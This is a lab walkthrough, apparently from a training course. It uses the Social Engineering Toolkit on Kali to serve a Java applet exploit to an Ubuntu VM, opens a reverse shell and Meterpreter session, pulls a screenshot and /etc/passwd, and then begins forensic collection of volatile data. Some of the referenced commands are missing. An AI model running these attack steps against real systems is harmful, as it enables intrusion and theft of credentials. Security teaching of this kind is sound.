


# Exploiting Java to Attack a Remote System

## 1.1. Using the Social Engineering Toolkit (SET)

1\. Launch the Kali virtual machine to access the graphical login
screen.

2\. Log in as root with toor as the password. Open the Kali PC Viewer.

3\. Click on the terminal icon located in the top menu bar.

4\. Use the ifconfig command to verify if the loopback interface is up
and running. If it is not active, run the commands below to bring the
loopback interface up.

5\. Start both the apache2 and postgresql services by entering the command below.

6\. Start the Social Engineering Toolkit by typing the command below. Press Enter.

root@Kali-Attacker:~# setoolkit

7\. When presented with the SET main menu, type 1 for Social-Engineering Attacks. Press Enter

8\. On the next menu, type 2 for Website Attack Vectors. Press Enter

9\. Choose the Metasploit Browser Exploit Method by typing the number 2. Press Enter.

10\. Choose Web Templates by typing 1. Press Enter1

11\. When asked, “Are you using NAT/Port Forwarding?” type yes. Press
Enter.

12\. When prompted for an IP address, type 203.0.113.2. Press Enter.

13\. When asked if the payload handler is on a different IP, type no.
Press Enter

14\. On the select a template menu, type 1 for Java Required. Press
Enter.

15\. From the browser exploit list, type 9 to use the Java 7 Applet
Remote Code Execution. Press Enter

16\. Type 1 to use Windows Shell Reverse_TCP. Press Enter

17\. Type 6666 to use as the reverse port number. Press Enter.

18\. Allow 2-3 minutes to pass for the SET web server to start. Once the
server starts, notice the message that appears, press the Enter key to
receive the prompt back.

1.2. Initiating Malicious URL

1\. Launch the Ubuntu virtual machine to access the graphical login
screen.

2\. Log in as student with securepassword as the password.

3\. Open the Firefox web browser by clicking on the Firefox icon located
on the left menu pane.

4\. In the address bar, type the following: http://203.0.113.2:8080/
followed by pressing Enter.

5\. A message will appear asking to a Java applet. Click on
Allow

6\. Another Firefox message appears. Click on Allow Now.

7\. Open a new terminal window by clicking on the terminal icon located
on the left menu pane.

8\. Type the command below to verify if a connection is made to the
remote server.

1.3. Using the Meterpreter Session

1\. Change focus back to the Kali system.

2\. Focus on the terminal window left open with SET running. Notice the
prompt displaying that a meterpreter session has been opened. Press the
Enter key to bring the command prompt up.

3\. Type the sessions command, followed by pressing Enter. Notice the
active sessions presented.

4\. Start an interaction with session 1. Type the command below followed
by pressing the Enter key.

5\. Notice the meterpreter prompt appears. Type sysinfo followed by
pressing Enter to receive info on the operating system of the victim.

6\. Type getuid followed by pressing Enter to receive user info that the
server is running as.

7\. Type ps followed by pressing Enter to receive a list of running
processes on the victim.

8\. Type screenshot to print an active screenshot of the victim’s
current desktop screen. Press Enter

9\. Type download /etc/passwd to grab the passwd file. Press Enter

10\. Type shell into the meterpreter prompt and press Enter

meterpreter \> shell

11\. Notice no prompt is shown. Proceed to type pwd and press the Enter
key to confirm you have shell access.

2\. Collecting Volatile Data

2.1. Collecting Volatile Data on a Compromised System

1\. Once a system has been compromised, it is important to get some
information off the system before it is shut down. Any data residing in
RAM will be gone when the system is shut down. Change focus to the
Ubuntu system

2\. On the Ubuntu system, navigate to an open terminal.

3\. In the terminal, enter the command below to escalate to root
privileges. If prompted, enter securepassword as the password.

4\. Create a file to contain any volatile data we can find. To put a
heading into the file, enter the command below.

5\. Verify the report.txt file has been created with the “student
investigator” title.

root@Ubuntu:/home/student# cat report.txt

6\. Add the date and timestamp to the report.txt file

root@Ubuntu:/home/student# date \>\> report.txt

7\. Print the system information to the report.txt file.

root@Ubuntu:/home/student# uname –a \>\> report.txt

8\. Add the hostname to the report.txt file.

root@Ubuntu:/home/student# hostname \>\> report.txt
